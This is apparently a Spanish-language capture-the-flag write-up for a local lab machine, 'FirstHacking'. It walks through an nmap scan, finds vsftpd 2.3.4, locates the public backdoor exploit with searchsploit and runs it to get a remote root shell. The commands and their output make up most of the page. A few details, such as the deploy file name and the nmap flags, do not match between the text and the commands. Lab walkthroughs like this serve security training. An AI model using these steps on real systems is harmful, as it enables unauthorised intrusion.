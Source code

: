 
# 7. Máquina: FirstHacking  

<a href="https://github.com/GutsNet"><img title="Author" src="https://img.shields.io/badge/Author-GutsNet-purple.svg?style=for-the-badge&logo=github"></a>

**Dificultad:** 🔵 *Muy Fácil*

**Autor:** *[El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)*

**Fecha de creación:** *14/06/2024*

**Proceso:**
- [1. Despliegue](#desplegando-la-máquina-vulnerable)
- [2. Escaneo de Puertos](#escaneo-de-puertos-con-nmap)
- [3. Búsqueda de Exploits](#exploit-vsftpd-234)
- [4. Ejecución de Exploit](#ejecución-del-exploit)
- [5. Acceso a la Máquina](#acceso-a-la-máquina)

---

## Desplegando la Máquina Vulnerable

```python
~/FirstHacking ᐅ sudo bash auto_deploy.sh firsthacking.tar
```
Este comando ejecuta un script de bash (`auto_deploy.sh`) que despliega la máquina vulnerable a partir del archivo `trust.tar`.

**Salida:**

```python
Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

#### Verificación de Conectividad

```python
~/FirstHacking ᐅ ping -c 2 172.17.0.2
```
El comando `ping -c 2` envía 2 paquetes ICMP a la dirección IP `172.17.0.2` para verificar la conectividad y la respuesta del host.

**Salida:**

```python
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.066 ms
64 bytes from 172.17.0.2: icmp_seq=2 ttl=64 time=0.045 ms

--- 172.17.0.2 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1062ms
rtt min/avg/max/mdev = 0.045/0.055/0.066/0.010 ms
```
---

## Escaneo de Puertos con Nmap

```python
~/FirstHacking ᐅ nmap -p- -sV 172.17.0.2
```
Este comando revela que el puerto `21` (FTP) está abierto, con el servicio `vsftpd` versión `2.3.4` ejecutándose.

**Salida:**

```python
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix
```

**Explicación de parámetros:**

- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `-sCV`: Realiza un escaneo con detección de versión (`-sV`) y utiliza scripts básicos (`-sC`) para obtener más información del servicio.

---

## Exploit vsftpd 2.3.4

```python
~/FirstHacking ᐅ searchsploit vsftpd 2.3.4
```

Se encuentra un exploit conocido para `vsftpd 2.3.4` que permite la ejecución remota de comandos a través de una puerta trasera.

**Salida:**

```python
vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/49757.py
```

### Descarga del Exploit

```python
~/FirstHacking ᐅ searchsploit -m 49757
```

Se descarga el archivo `49757.py` para proceder con la explotación.

**Información del Exploit:**

- **Exploit:** vsftpd 2.3.4 - Backdoor Command Execution
- **URL:** [Exploit-DB #49757](https://www.exploit-db.com/exploits/49757)
- **CVE:** CVE-2011-2523
- **Autor:** HerculesRD
- **Probado en:** Debian
- **Tipo de archivo:** Python Script

---

## Ejecución del Exploit

```python
~/FirstHacking ᐅ python3 49757.py 172.17.0.2
```

Este comando ejecuta el exploit `49757.py` para abrir una shell remota en el puerto `6200` del servidor vulnerable.

**Salida:**

```python
Success, shell opened
Send `exit` to quit shell
```

---

## Acceso a la Máquina

```python
script /dev/null -c bash
```

Se obtiene acceso como `root` en el sistema vulnerable.

**Comandos de Verificación:**

```python
root@dac087324923:~/vsftpd-2.3.4# whoami
root
```
